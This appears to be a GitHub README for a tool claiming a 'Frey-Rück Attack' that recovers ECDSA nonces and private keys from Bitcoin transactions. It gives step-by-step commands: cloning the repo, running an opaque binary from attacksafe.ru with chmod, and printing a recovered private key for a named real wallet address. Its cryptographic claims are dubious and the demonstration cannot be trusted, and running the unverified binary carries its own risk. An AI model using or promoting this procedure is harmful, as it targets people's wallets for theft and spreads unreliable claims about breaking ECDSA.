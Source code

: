 # Frey-Rück Attack

---

With a critical vulnerability in the Bitcoin blockchain transaction, we can solve the rather difficult discrete logarithm problem to extract the secret key "K" (NONCE) from the vulnerable ECDSA signature in order to ultimately restore the Bitcoin Wallet, since knowing the secret key we can get a private key. To do this, there are several algorithms from the list of popular attacks on Bitcoin, one of which is the “Frey-Rück Attack on Bitcoin”.



---

* Tutorial: https://youtu.be/wqHES7r1qyc
* Tutorial: https://cryptodeep.ru/frey-ruck-attack

---

# Commands:





    git clone https://github.com/demining/CryptoDeepTools.git


    cd CryptoDeepTools/14FreyRuckAttack/

    ls

    wget https://bootstrap.pypa.io/pip/2.7/get-pip.py

    sudo python2 get-pip.py

    pip2 install -r requirements.txt


---


# With a critical vulnerability, we can get the private key to the Bitcoin Wallet:


https://btc.exan.tech/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG

https://btc.exan.tech/tx/a575ef45375f85d6d3c010dae01df1479e2e0c5b870b80ee757fc2522057db72


---



    RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


    python2 breakECDSA.py 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


---


R = 0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff
S = 0x649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1
Z = 0xb8e936d143c8733bb1ede19146f8725fee1d10bfc19e14452a51cef0cb0014d8


---

# To implement the attack and get the secret key, we will use the software: “ATTACKSAFE SOFTWARE” [ https://attacksafe.ru/software ]


---

    chmod +x attacksafe


---

    ./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt


---



# We launched this attack from -tool frey_ruck_attack and the result is saved to the file SecretKey.txt


    cat SecretKey.txt


    Deployments ECDSA:

    SecretKey = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3


    RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


---


# We see the inscription "Deployments ECDSA" which means a critical vulnerability in the Bitcoin blockchain transaction

SecretKey value in HEX format, this is our secret key "K" (NONCE):

K=0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3


---


    pip3 install ECPy


    python3 point2gen.py 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3



    R          =       0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff
    point2gen  =   (0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff , 0x92718ef50eb3f5eb155a244e371194fb5086e58f1d174e88cda0a60a2ed899f7)


---


# ALL CORRECT!


K=0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3

## Now knowing the secret key, we can get the private key to the Bitcoin Wallet: 16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG


The script: calculate.py will calculate the private key using the formula:
Privkey = ((((S * K) - Z) * modinv(R,N)) % N)


---


    python3 calculate.py


---


## PrivKey = 4faa01f7409813181fb5ae8d352796b791cd9df4ba0650df7008f5d9d6be8766



---


---

* Tutorial: https://youtu.be/r0fTtBDWTnw
* Tutorial: https://cryptodeep.ru/tesla-brainwallet

---


|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2kh9WzCActXSGHxyypGLkqQZfxDpw8v |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
